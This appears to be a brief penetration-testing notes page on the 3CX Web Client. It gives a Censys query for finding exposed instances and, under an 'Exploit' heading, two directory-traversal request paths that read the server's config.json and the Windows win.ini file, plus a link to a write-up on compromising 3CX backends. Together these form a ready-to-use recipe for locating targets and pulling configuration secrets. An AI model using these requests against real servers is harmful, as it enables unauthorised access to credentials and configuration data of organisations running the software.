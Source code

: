 ```yaml
---
description: >-
  The 3CX Web Client is a browser-based app. It combines all the features you
  need to easily and efficiently communicate, collaborate and connect with
  colleagues, partners, and customers.
---
```


# 3CX Webclient

## Search

```
https://search.censys.io/search?resource=hosts&sort=RELEVANCE&per_page=25&virtual_hosts=INCLUDE&q=services.http.response.html_title%3A%223CX+Webclient%22
```

## Exploit

### Directory Traversal

```
{{BaseURL}}/Electron/download/windows/..\..\..\Http\webroot\config.json
{{BaseURL}}/Electron/download/windows/\windows\win.ini
```

{% embed url="https://medium.com/@frycos/pwning-3cx-phone-management-backends-from-the-internet-d0096339dd88" %}
